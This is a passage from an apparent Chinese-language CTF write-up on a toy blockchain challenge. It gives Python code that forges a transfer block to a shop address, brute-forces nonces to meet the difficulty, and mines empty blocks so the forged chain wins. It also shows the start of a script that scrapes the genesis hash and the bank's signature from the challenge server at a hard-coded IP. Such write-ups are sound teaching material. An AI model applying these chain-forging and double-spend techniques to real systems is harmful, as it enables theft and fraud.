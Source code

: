 ## 攻击脚本

这里我们采取攻击思路二，通过分析init函数，可见一般构造一个区块要通过三个步骤：

- reate_output_utxo：生成转出的utxo数据块，以及自己剩余的utxo数据块
- create_tx：通过上两个utxo数据块以及付款钱包的utxo中的id和私钥生成transactions数据块（id和私钥一起计算签名）
- create_block：利用生成的transaction数据，前一块的hash，以及nonce生成一块符合标准区块


通过三个API构造出如下函数：

```python
def check_hash(prev,tx):
    for i in range(10000000):
        current_block=create_block(prev,str(i),tx)
        block_hash = int(current_block['hash'], 16)
        if block_hash<DIFFICULTY:
            print json.dumps(current_block)
            return current_block

def create_feak_one():
    utxo_first=create_output_utxo(shop_addr,1000000)
    tx_first=create_tx([bank_utox_id],[utxo_first])
    return check_hash(prev_one,[tx_first])

def create_empty_block(prev):
    return check_hash(prev,[])
```

- check_hash：计算出符合难度系数的hash值的区块
- create_feak_one：生成一个转账给商店的假块
- create_empty_block：生成空块

生成攻击块：

```python
a=create_feak_one()
b=create_empty_block(a['hash'])
c=create_empty_block(b['hash'])
d=create_empty_block(c['hash'])
e=create_empty_block(d['hash'])
```


整合脚本，这里我更改了create_tx方法中的签名的计算方法，直接把黑客块的签名写死到了该方法中，因为毕竟只需要伪造一个有转账记录的空块

```python
# -*- encoding: utf-8 -*-
# written in python 2.7
import hashlib, json, rsa, uuid, os,requests,re

# 一堆变量常量

url_root="http://116.85.48.107:5000/b9744af30897e/"
url_create="http://116.85.48.107:5000/b9744af30897e/create_transaction"
url_flag="http://116.85.48.107:5000/b9744af30897e/flag"

s=requests.Session()
ddcoin = s.get(url=url_root)

prev_one=re.search(r"hash of genesis block: ([0-9a-f]{64})",ddcoin.content, flags=0).group(1)
bank_utox_id=re.search(r"\"input\": \[\"([0-9a-f\-]{36})",ddcoin.content, flags=0).group(1)
bank_signature=re.search(r"\"signature\": \[\"([0-9a-f]{96})",ddcoin.content, flags=0).group(1)

DIFFICULTY = int('00000' + 'f' * 59, 16)
EMPTY_HASH = '0'*64

```